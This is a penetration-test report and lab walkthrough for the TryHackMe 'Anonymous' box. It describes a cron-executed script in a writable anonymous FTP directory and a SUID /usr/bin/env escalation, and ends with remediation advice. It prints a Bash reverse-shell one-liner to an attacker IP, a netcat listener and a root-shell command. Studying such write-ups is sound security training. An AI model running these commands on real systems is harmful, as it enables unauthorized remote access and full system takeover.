---

# **Penetration Test Report: Anonymous**

---

### **TL;DR**

The target system was compromised through a misconfigured anonymous FTP service that exposed a world-writable directory containing a script executed by an automated task. By replacing the script with a reverse shell payload, remote code execution was achieved and a shell was obtained as the user `namelessone`. Further local enumeration revealed a misconfigured SUID binary (`/usr/bin/env`), which was abused to escalate privileges directly to root.

---

### **Target Information**

- **Target IP:** 10.112.168.175
- **Operating System:** Ubuntu Linux
- **Open Ports:**
    - 21/tcp – FTP (vsftpd)
    - 22/tcp – SSH (OpenSSH 7.6p1)
    - 139/tcp – SMB (Samba)
    - 445/tcp – SMB (Samba 4.7.6)
- **Assessment Type:** Authorized lab environment

---

### **Executive Summary**

The assessment identified several critical security weaknesses that allowed complete compromise of the target host.

Anonymous FTP access exposed a writable directory containing scripts used by the system. Analysis of log files indicated that one of these scripts was executed automatically on a recurring basis. By modifying the script and injecting a reverse shell payload, arbitrary command execution was achieved without authentication.

Following initial access, local privilege escalation enumeration identified a SUID-enabled instance of `/usr/bin/env`. This binary is known to permit execution of arbitrary programs with elevated privileges when improperly configured. Abuse of this misconfiguration resulted in immediate root access.

**Key Findings:**

| Finding | Severity | Impact |
| --- | --- | --- |
| Anonymous FTP Access | High | Unauthenticated access to internal files |
| Writable FTP Scripts Directory | Critical | Arbitrary file modification |
| Scheduled Execution of Writable Script | Critical | Remote code execution |
| SUID `/usr/bin/env` | Critical | Immediate privilege escalation to root |
| SMB Anonymous Share Exposure | Medium | Information disclosure |

---

### **Scope and Methodology**

#### **Scope**

- **Target:** 10.112.168.175
- **Application:** Anonymous (TryHackMe Lab)
- **Ports/Protocols in Scope:**
    - FTP (21/tcp)
    - SSH (22/tcp)
    - SMB (139/tcp, 445/tcp)

#### **Methodology**

The assessment followed a structured penetration testing methodology:

1. **Reconnaissance & Enumeration:** Network scanning, service enumeration, SMB and FTP enumeration
2. **Vulnerability Analysis:** Review of exposed files, analysis of scheduled scripts, identification of privilege escalation vectors
3. **Exploitation:** Abuse of writable scheduled script, remote code execution
4. **Post-Exploitation & Privilege Escalation:** SUID enumeration, privilege escalation via `/usr/bin/env`
5. **Documentation:** Evidence collection, attack path reconstruction, risk analysis

---

### **Findings and Exploitation**

**Vulnerability Summary**

Anonymous FTP access exposed a world-writable scripts directory. Analysis of log files revealed that a script inside this directory was executed automatically. By modifying the script and injecting a reverse shell payload, arbitrary command execution was achieved.

**Technical Walkthrough**

1. **Initial Reconnaissance**

    ```bash
    nmap -sS -sV -sC -T4 -p- -oA initial_nmap_scan $ip
    ```

    A full TCP scan identified four exposed services:

        - FTP
        - SSH
        - SMB (139)
        - SMB (445)

    Notable findings:

        - Anonymous FTP access enabled
        - SMB shares accessible anonymously

    

2. **FTP Enumeration**

    Anonymous authentication was successful.

    

    A writable directory named `scripts` was discovered:

    

    Contents:

    ```
    clean.sh
    removed_files.log
    to_do.txt

    ```

    All files were downloaded for offline review.

3. **Analysis of FTP Files**

    **`to_do.txt`**

    Contained administrative notes, including a reminder that anonymous access should be removed.

    **`removed_files.log`**

    Contained repeated entries:

    

    The repeated log entries suggested scheduled execution of `clean.sh`.

    **`clean.sh`**

    A cleanup script intended to remove temporary files and append entries to the log file.

    

4. **SMB Enumeration**

    Anonymous SMB enumeration revealed the following share:

    ```
    pics
    ```

    

    Files discovered:

    ```
    corgo2.jpg
    puppos.jpeg
    ```

    

    The files were downloaded and analyzed but did not contribute to the compromise path.

5. **Remote Code Execution**

    The recurring log entries strongly suggested that `clean.sh` was executed automatically.

    Because the script resided in a writable FTP directory, it was replaced with a Bash reverse shell payload:

    ```bash
    #!/bin/bash
    bash -i >& /dev/tcp/192.168.135.124/4444 0>&1
    ```

    

    A Netcat listener was started on the attacking host:

    ```bash
    nc -lvnp 4444
    ```

    After the scheduled task executed, a reverse shell connection was received:

    


---

### **Post-Exploitation & Privilege Escalation**

**Vulnerability Summary**

A SUID-enabled instance of `/usr/bin/env` was present on the system.

This binary can execute arbitrary commands while preserving elevated privileges, making it a known privilege escalation vector when misconfigured.

**Technical Walkthrough**

1. **SUID Enumeration**

    The following command was executed:

    

    ```bash
    find / -type f -perm -4000 2>/dev/null
    ```

    A notable result was identified:

    

    ```
    /usr/bin/env
    ```

    Permissions:

    ```
    -rwsr-xr-x 1 root root /usr/bin/env
    ```


2. **Privilege Escalation**

    The SUID binary was abused as follows:

    ```bash
    /usr/bin/env /bin/sh -p
    ```

    Root access was immediately obtained:

    ```
    whoami
    root
    ```

    Verification:

    ```bash
    cd /root
    ls
    cat root.txt
    ```

    

    This confirmed complete system compromise.

---

### **Risk Assessment**

| Finding | Description | Likelihood | Impact | Risk Rating |
| --- | --- | --- | --- | --- |
| Anonymous FTP Access | Unauthenticated access to files | High | High | High |
| Writable FTP Scripts Directory | Modification of executable scripts | High | Critical | Critical |
| Scheduled Script Execution | Remote code execution | High | Critical | Critical |
| SUID `/usr/bin/env` | Local privilege escalation | High | Critical | Critical |
| Anonymous SMB Share | Information disclosure | Medium | Medium | Medium |

---

### **Risk Factor Analysis**

| Risk Factor | Analysis |
| --- | --- |
| Attack Complexity | Low |
| Required Privileges | None |
| User Interaction | None |
| Exploit Availability | Public techniques available |
| Confidentiality Impact | Complete compromise |
| Integrity Impact | Complete compromise |
| Availability Impact | Complete compromise |

---

### **Conclusion**

The target was fully compromised through a chain of security misconfigurations.

Anonymous FTP access exposed a writable scripts directory that contained a script executed automatically by the system. Modification of this script resulted in remote code execution and shell access as `namelessone`.

Subsequent local enumeration revealed a misconfigured SUID binary (`/usr/bin/env`), which enabled direct privilege escalation to root.

The combination of anonymous access, writable executable content, and unsafe privilege configuration resulted in complete system compromise.

---

### **Recommendations**

1. Disable anonymous FTP access.
2. Remove write permissions from publicly accessible directories.
3. Prevent scheduled tasks from executing files stored in user-controlled locations.
4. Implement file integrity monitoring for scripts executed automatically.
5. Review all SUID binaries and remove unnecessary permissions.
6. Remove SUID permissions from `/usr/bin/env`.
7. Regularly audit privilege escalation vectors using automated hardening tools.
8. Restrict SMB access to authenticated users only.
9. Implement centralized monitoring and alerting for file modifications in sensitive directories.

---